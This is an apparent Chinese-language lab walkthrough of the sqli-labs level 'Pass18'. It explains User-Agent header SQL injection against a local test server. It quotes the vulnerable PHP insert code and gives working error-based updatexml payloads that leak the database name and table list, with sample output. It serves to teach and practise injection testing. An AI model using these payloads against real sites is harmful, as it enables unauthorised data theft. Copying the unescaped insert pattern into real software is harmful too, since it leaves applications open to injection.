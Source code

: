 # Pass18

```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

源码这里当用户名跟密码都有输入的时候才能触发的，可以看到用户名和密码都被过筛了，也就是不能在这里进行SQL注入了

> **Your IP ADDRESS is: 192.168.31.119**

网页记录了本地ip的信息，说明可能事数据库记录了本机的信息，
即后台获取了一些诸如Ip的信息保存 到数据库中，
并且页面返回了数据包**user-agent**的信息，
那么在请求头中就可能存在注入点\ <a name="hHPE1"></a>

请求头注入

> 源代码标识获取浏览器信息，即user-Agent部分，
> 表示客户端通过什么浏览器向后台请求
> 在后面的请求中也有将该部分进行存储添加到数据库，
> 现在就可以通过一些手段在数据添加的同时进行注入

<a name="Y51fI"></a>

## 报错注入

### 爆破数据库名称

1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
不能像常规的报错盲注一样直接上，我们得考虑一下闭合VALUES，假如我们利用的点是$uagent，那构建格式就应该是1',1,1)#，在SQL语句中相当于

```bash
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,1)#, '$IP', $uname)
```

> Your IP ADDRESS is: 192.168.31.119
> Your User Agent is: 1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'



### 爆破数据表

`1',1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#` 
